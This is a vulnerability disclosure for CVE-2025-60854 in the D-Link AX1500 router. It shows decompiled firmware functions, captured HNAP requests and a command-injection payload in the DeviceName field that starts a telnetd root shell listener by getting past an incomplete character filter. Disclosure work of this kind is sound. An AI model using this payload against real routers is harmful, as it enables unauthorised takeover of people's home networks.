

# CVE-2025-60854
D-link AX1500 Vulnerability

I recently conducted a vulnerability analysis on a D-Link router and would like to document my findings.

Target model: D-Link AX1500

Version : 1.20.01 and below

The CVE number for this issue is currently published. 

The vulnerable function is as follows:
```c
int __fastcall sub_46AE00(int a1)
{
  unsigned __int32 v2; // $v1
  int v3; // $s1
  int v4; // $t8
  int v6; // $v0
  int v7; // $s3
  int v8; // $s3
  char *v9; // $t8
  unsigned __int32 v10; // $v1
  _DWORD *v11; // $s3
  unsigned __int32 v12; // $v1
  _DWORD *v13; // $s3
  unsigned __int32 v14; // $v1
  _DWORD *v15; // $s2
  unsigned __int32 v16; // $v1
  _DWORD *v17; // $s2
  const char *v18; // $s0
  int v19; // $v0
  unsigned __int32 v20; // $v1
  _DWORD *v21; // $s2
  int v22; // $v0
  int v23; // $a0
  unsigned __int32 v24; // $v1
  unsigned __int32 v25; // $v1
  char v26[1024]; // [sp+28h] [-470h] BYREF
  _DWORD v27[8]; // [sp+428h] [-70h] BYREF
  char v28; // [sp+448h] [-50h]
  _DWORD v29[8]; // [sp+44Ch] [-4Ch] BYREF
  char v30; // [sp+46Ch] [-2Ch]
  _DWORD v31[4]; // [sp+470h] [-28h] BYREF
  char v32; // [sp+480h] [-18h]
  _DWORD v33[2]; // [sp+484h] [-14h] BYREF
  int v34; // [sp+48Ch] [-Ch] BYREF
  _BYTE v35[8]; // [sp+490h] [-8h] BYREF

  v34 = 0;
  memset(v29, 0, sizeof(v29));
  v30 = 0;
  memset(v27, 0, sizeof(v27));
  v28 = 0;
  v2 = _rdhwr(0x1Du);
  v3 = dword_4E77C8;
  if ( a1 && *(_BYTE *)a1 )
  {
    write_csman_str(*(_DWORD *)(dword_4E77C8 + v2), 17, a1);
    if ( sub_415D74(a1, v26, 1024) < 0 )
      sub_493F70("%s(%d): !!!!!!!! buffer overflow !!!!!!!!!!!\n", "save_CSID_SetDeviceSettings", 145);
    v22 = syscall(4222);
    exec_cmd(
      v22,
      "ws-hnap/SetDeviceSettings.c",
      "save_CSID_SetDeviceSettings",
      147,
      "event_notifier 3001 \"U=0&Y=261&I=0&D=%s\"&",
      v26);
    v4 = *(_DWORD *)(a1 + 168);
  }
  else
  {
    read_csman(*(_DWORD *)(dword_4E77C8 + v2), -2147466720, a1, 65, 4);
    v4 = *(_DWORD *)(a1 + 168);
  }
  if ( !v4 )
  {
    if ( !*(_BYTE *)(a1 + 172) )
      goto LABEL_6;
LABEL_19:
    v16 = _rdhwr(0x1Du);
    v17 = (_DWORD *)(v3 + v16);
    v18 = (const char *)(a1 + 172);
    write_csman_str(*(_DWORD *)(v3 + v16), 458753, v18);
    write_csman_int(*v17, -2147024895, 1);
    sub_493EC4("%s:%d (fota -T %s; fota -I; fota -fQ)\n", "save_CSID_SetDeviceSettings", 211, v18);
    v19 = syscall(4222);
    exec_cmd(
      v19,
      "ws-hnap/SetDeviceSettings.c",
      "save_CSID_SetDeviceSettings",
      212,
      "(fota -T %s; fota -I; fota -fQ) &",
      v18);
    if ( dword_75A2A0 != 1 )
      return 1;
    goto LABEL_20;
  }
  memset(v26, 0, 129);
  memset(v31, 0, sizeof(v31));
  v32 = 0;
  v33[0] = 0;
  v33[1] = 0;
  v6 = fopen("/tmp/iii", "w");
  v7 = v6;
  if ( v6 )
  {
    fputs(a1 + 65, v6);
    fclose(v7);
    system("openssl passwd -5 -in /tmp/iii > /tmp/ooo; rm /tmp/iii");
    v8 = fopen("/tmp/ooo", "r");
    if ( v8 )
    {
      memset(v26, 0, 129);
      fgets(v26, 129, v8);
      fclose(v8);
      remove("/tmp/ooo");
      v9 = &v26[strlen(v26) - 1];
      if ( *v9 == 10 )
        *v9 = 0;
      if ( v26[0] )
      {
        v25 = _rdhwr(0x1Du);
        write_csman_str(*(_DWORD *)(v3 + v25), 66436, v26);
      }
    }
  }
  v10 = _rdhwr(0x1Du);
  v11 = (_DWORD *)(v3 + v10);
  read_csman(*(_DWORD *)(v3 + v10), -2147420412, v33, 8, 4);
  if ( strcmp(v33, "SG1") )
  {
    write_csman_str(*v11, 65538, a1 + 65);
  }
  else
  {
    sub_423B70(v31, 0x10000);
    write_csman_str(*v11, 66435, v31);
    sub_4257B4(2300, 10400, 5000, a1 + 65, v31, v26, 129);
    write_csman_str(*v11, 65538, v26);
  }
  v12 = _rdhwr(0x1Du);
  v13 = (_DWORD *)(v3 + v12);
  read_csman_uc(*(_DWORD *)(v3 + v12), 13041666, v35);
  if ( !v35[0] )
    write_csman_int(*v13, 13041667, 0);
  v14 = _rdhwr(0x1Du);
  v15 = (_DWORD *)(v3 + v14);
  write_csman_int(*(_DWORD *)(v3 + v14), -2134441977, 1);
  write_csman_uc(*v15, 13041666, 1);
  write_csman_int(*v15, -2146107295, 1);
  if ( *(_BYTE *)(a1 + 172) )
    goto LABEL_19;
LABEL_6:
  if ( dword_75A2A0 != 1 )
    return 1;
LABEL_20:
  v20 = _rdhwr(0x1Du);
  v21 = (_DWORD *)(v3 + v20);
  read_csman(*(_DWORD *)(v3 + v20), 66434, v27, 33, 4);
  if ( strcmp(v27, "24601") )
  {
    dword_75A2A0 = 0;
  }
  else
  {
    v23 = *v21;
    strcpy((char *)v27, "Medeleine");
    write_csman_str(v23, 66434, v27);
    read_csman(*v21, 66433, v29, 33, 4);
    read_csman_int(*v21, -2147418027, &v34);
    if ( !strcmp(v29, "WirelessRepeaterExtender") && v34 == 2 )
    {
      write_csman_str(*v21, 66433, "WirelessAp");
      write_csman_int(*v21, 1638408, 1);
      write_csman_int(*v21, &loc_440008, 1);
    }
    v24 = _rdhwr(0x1Du);
    write_csman_int(*(_DWORD *)(v3 + v24), -2147417984, 1);
    dword_75A2A0 = 0;
  }
  return 1;
}
```
This function is invoked when a password change request is submitted via the web administration interface.

The critical portion is shown below:
```c
    exec_cmd(
      v22,
      "ws-hnap/SetDeviceSettings.c",
      "save_CSID_SetDeviceSettings",
      147,
      "event_notifier 3001 \"U=0&Y=261&I=0&D=%s\"&",
      v26);
```
This part executes event_notifier, and the argument v26 contains the device model name.

When analyzing the password change request flow, the client sends the following sequence of packets:
```
GET /image/rwd/icon_fun_h.svg HTTP/1.1 Host: 192.168.100.1:64 Accept-Language: ko-KR,ko;q=0.9 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://192.168.100.1:64/css/ea.css?v=c2225879d4 Accept-Encoding: gzip, deflate, br Cookie: speedtestMAC6429430160EE=yes; uid=KlKBcEiaGSqN7ikZXJknXhja Connection: keep-alive

POST /DHMAPI/ HTTP/1.1 Host: 192.168.100.1:64 Content-Length: 298 Accept-Language: ko-KR,ko;q=0.9 API-AUTH: 685DA5281BF08698E756EBCB0019BF9179F0FCFCB603CBBF0B927FF590E2CC0C 1755555176134 API-CONTENT: 87C2020764A1FCF9A7DDE7FDD1885F27D13CA1E85D2C4F18120B62C1FBB3544954DE44723725AD0D08FF6D1C1EA3A334 AC144ABB8AD52ABD4FF26CD23A8173FF API-ACTION: SetLEDStatus X-Requested-With: XMLHttpRequest User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Accept: */* Content-Type: text/xml; charset=UTF-8 Origin: http://192.168.100.1:64 Referer: http://192.168.100.1:64/Admin.html Accept-Encoding: gzip, deflate, br Cookie: speedtestMAC6429430160EE=yes; uid=KlKBcEiaGSqN7ikZXJknXhja Connection: keep-alive <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetLEDStatus><Enabled>true</Enabled></SetLEDStatus></soap:Body></soap:Envelope>

POST /DHMAPI/ HTTP/1.1 Host: 192.168.100.1:64 Content-Length: 452 Accept-Language: ko-KR,ko;q=0.9 API-AUTH: 6BAFB9D4C0ECEB32FA4FAA3CD0682A95527F78DD92D87D7F392A4656E9B12D53 1755555177933 API-CONTENT: FE33AD3A3E9555D6E82FEF8A46CD3AB481A84096A91FBC6AD6BFC3CE455A3D581BF577F485A657A05D890CF08040376A 87F0E5E57F3BA384091863E31CB558D5 API-ACTION: SetAdministrationSettings X-Requested-With: XMLHttpRequest User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Accept: */* Content-Type: text/xml; charset=UTF-8 Origin: http://192.168.100.1:64 Referer: http://192.168.100.1:64/Admin.html Accept-Encoding: gzip, deflate, br Cookie: speedtestMAC6429430160EE=yes; uid=KlKBcEiaGSqN7ikZXJknXhja Connection: keep-alive <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetAdministrationSettings><HTTPS>false</HTTPS><RemoteMgt>true</RemoteMgt><RemoteMgtPort>8081</RemoteMgtPort><RemoteMgtHTTPS>false</RemoteMgtHTTPS><InboundFilter></InboundFilter></SetAdministrationSettings></soap:Body></soap:Envelope>

POST /DHMAPI/ HTTP/1.1 Host: 192.168.100.1:64 Content-Length: 528 Accept-Language: ko-KR,ko;q=0.9 API-AUTH: 75312FC92F83A4097FA7A3BEB9EF77191D38D284BBC8E20FA1311B2D4445E73A 1755555183143 API-CONTENT: 5E2152156CC73AC16D2BD5D18F1905DEF28CD2CC87E450CDE8805093D69A3ED3AE30417070096043677B72CA50B2EDA3 97D9F5C25BDF53BBB88520E9315C4DA4 API-ACTION: SetDeviceSettings X-Requested-With: XMLHttpRequest User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Accept: */* Content-Type: text/xml; charset=UTF-8 Origin: http://192.168.100.1:64 Referer: http://192.168.100.1:64/Admin.html Accept-Encoding: gzip, deflate, br Cookie: speedtestMAC6429430160EE=yes; uid=KlKBcEiaGSqN7ikZXJknXhja Connection: keep-alive <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDeviceSettings><DeviceName>R15</DeviceName><PresentationURL>https://R15-60EE.local/</PresentationURL><CAPTCHA>false</CAPTCHA><ChangePassword>true</ChangePassword><AdminPassword>4B2411C65E34B60D060F23E1BCEAAD40 7D5D1AD51D4EB02C67567A0E11AC5AD7</AdminPassword></SetDeviceSettings></soap:Body></soap:Envelope>
```
The XML data inside the 4th packet is structured as follows:

```
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetDeviceSettings><DeviceName>R15</DeviceName>
<PresentationURL>https://R15-60EE.local/</PresentationURL>
<CAPTCHA>false</CAPTCHA>
<ChangePassword>true</ChangePassword>
<AdminPassword>4B2411C65E34B60D060F23E1BCEAAD40 7D5D1AD51D4EB02C67567A0E11AC5AD7</AdminPassword>
</SetDeviceSettings></soap:Body></soap:Envelope>
```
From this, we can see that the devicename field is included:

```
<DeviceName>R15</DeviceName>
```
The string R15 is passed directly as an argument to exec_cmd. Although the input is filtered, the filtering is incomplete and can be easily bypassed.


By manipulating the value of R15, it is possible to execute a reverse shell.
For example:
```
"|telnetd -l ash -p 4545|true"
```

When this payload is used, exec_cmd ends up executing the following command:
```
event_notifier 3001 "U=0&Y=261&I=0&D="|telnetd -l ash -p 4545|true""&
```
Since the %s format character is wrapped in double quotes, we can close the string by injecting a double quote in the DeviceName field. Then, we use | to chain additional commands. As a result, the command is split into three separate commands:

1. event_notifier 3001 "U=0&Y=261&I=0&D="
2. |telnetd -l ash -p 4545|
3. true""&


The filtering function is implemented as follows:

```c
int __fastcall sub_415D74(char *a1, int a2, int a3)
{
  unsigned int v6; // $s1
  int result; // $v0
  int v8; // $s0
  char *i; // $t8
  int v10; // $s2
  char v11[24]; // [sp+18h] [-18h] BYREF

  strcpy(v11, "!#$&'()*+,/:;=?@[]%");
  memset(a2, 0, a3);
  v6 = 0;
  result = strlen(a1) != 0;
  v8 = 0;
  for ( i = a1; result; i = &a1[v6] )
  {
    v10 = *i;
    if ( strchr(v11, v10) )
    {
      if ( v8 + 2 >= a3 )
        return -1;
      ++v6;
      v8 += sprintf(a2 + v8, "%%%02hhX", v10);
    }
    else
    {
      if ( v8 >= a3 )
        return -1;
      *(_BYTE *)(a2 + v8++) = v10;
      ++v6;
    }
    result = v6 < strlen(a1);
  }
  return result;
}
```

This function replaces characters such as !#$&'()*+,/:;=?@[]% with their %XX byte-encoded representations.
However, it does not validate or sanitize the characters |, `, or ", leaving them unfiltered.


<p align="center">
  
</p>
